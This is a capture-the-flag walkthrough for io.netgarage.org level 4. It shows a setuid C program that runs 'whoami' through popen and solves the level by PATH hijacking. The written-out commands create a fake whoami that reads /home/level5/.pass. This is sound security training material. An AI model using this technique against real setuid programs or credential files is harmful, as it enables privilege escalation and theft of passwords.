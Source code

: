# io.netgarage.org: level4
Login to the challenge server, run the binary, you know the drill:
```
level4@io:/levels$ ./level04
Welcome level5
level4@io:/levels$
```
Let's take a look at the source:
```C
//writen by bla
#include <stdlib.h>
#include <stdio.h>

int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f);
        printf("Welcome %s", username);

        return 0;
}
```
The program simply runs `whoami`, gets the result, and print's "Welcome 
\<username>". Because it says "Welcome level5", we know this is a setuid 
program.

This vulnerability is simple: we can edit the `PATH` environment variable 
to add our own `whoami` command that prints the pass rather than the current
user:

```
level4@io:/levels$ mkdir /tmp/msimwashere
level4@io:/levels$ echo "cat /home/level5/.pass" > /tmp/msimwashere/whoami
level4@io:/levels$ chmod +x /tmp/msimwashere/whoami
level4@io:/levels$ export PATH=/tmp/msimwashere:$PATH
```

Now our own `whoami` is at the start of the `PATH` environment variable, 
meaning it will be called instead of the real `whoami`:

```
level4@io:/levels$ ./level04
Welcome <REDACTED>
```

And we now have the pass from `/home/level5/.pass`
And so, level04 is solved.

Happy Hacking!

~MarcoSi